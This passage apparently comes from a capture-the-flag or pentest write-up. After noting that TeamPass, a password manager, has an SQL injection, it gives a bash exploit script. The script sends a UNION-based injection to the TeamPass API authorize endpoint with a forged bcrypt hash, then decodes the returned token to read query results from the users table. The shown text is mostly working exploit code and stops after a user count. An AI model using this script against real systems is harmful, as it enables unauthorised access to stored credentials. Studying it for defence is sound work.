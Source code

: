 ![teampass](image-2.png)

I couldn't find the exact version, but searching for exploits led to an SQL injection vulnerability.

### Exploiting TeamPass SQLi

```bash
if [ "$#" -lt 1 ]; then
  echo "Usage: $0 <base-url>"
  exit 1
fi

vulnerable_url="$1/api/index.php/authorize"

check=$(curl --silent "$vulnerable_url")
if echo "$check" | grep -q "API usage is not allowed"; then
  echo "API feature is not enabled :-("
  exit 1
fi

# htpasswd -bnBC 10 "" h4ck3d | tr -d ':\n'
arbitrary_hash='$2y$10$u5S27wYJCVbaPTRiHRsx7.iImx/WxRA8/tKvWdaWQ/iDuKlIkMbhq'

exec_sql() {
  inject="none' UNION SELECT id, '$arbitrary_hash', ($1), private_key, personal_folder, fonction_id, groupes_visibles, groupes_interdits, 'foo' FROM teampass_users WHERE login='admin"
  data="{\"login\":\""$inject\"",\"password\":\"h4ck3d\", \"apikey\": \"foo\"}"
  token=$(curl --silent --header "Content-Type: application/json" -X POST --data "$data" "$vulnerable_url" | jq -r '.token')
  echo $(echo $token| cut -d"." -f2 | base64 -d 2>/dev/null | jq -r '.public_key')
}

users=$(exec_sql "SELECT COUNT(*) FROM teampass_users WHERE pw != ''")

echo "There are $users users in the system:"
```